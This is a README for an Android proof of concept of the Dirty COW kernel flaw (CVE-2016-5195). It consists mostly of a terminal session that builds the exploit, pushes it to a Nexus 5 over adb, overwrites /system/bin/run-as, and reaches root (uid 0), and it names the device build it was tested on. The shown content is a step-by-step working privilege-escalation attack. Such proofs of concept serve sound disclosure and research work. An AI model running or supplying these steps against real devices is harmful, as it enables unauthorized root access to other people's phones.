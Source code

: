 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

```
$ make root
ndk-build NDK_PROJECT_PATH=. APP_BUILD_SCRIPT=./Android.mk
make[1]: Entering directory `./CVE-2016-5195'
[armeabi] Install        : dirtycow => libs/armeabi/dirtycow
[armeabi] Install        : run-as => libs/armeabi/run-as
make[1]: Leaving directory `./CVE-2016-5195'
adb push libs/armeabi/dirtycow /data/local/tmp/dirtycow
[100%] /data/local/tmp/dirtycow
adb push libs/armeabi/run-as /data/local/tmp/run-as
[100%] /data/local/tmp/run-as
adb shell 'chmod 777 /data/local/tmp/run-as'
adb shell '/data/local/tmp/dirtycow /system/bin/run-as /data/local/tmp/run-as'
warning: new file size (5664) and file old size (14192) differ

this process 6825 is running processor : 1
this process 6826 is running processor : 1
[*] done !

adb shell /system/bin/run-as
running as uid 2000
uid 0
```
The poc was tested in nexus5 with fingerprint:

shell@hammerhead:/data/local/tmp $ getprop ro.build.fingerprint
google/hammerhead/hammerhead:6.0.1/MOB30P/2960889:user/release-keys

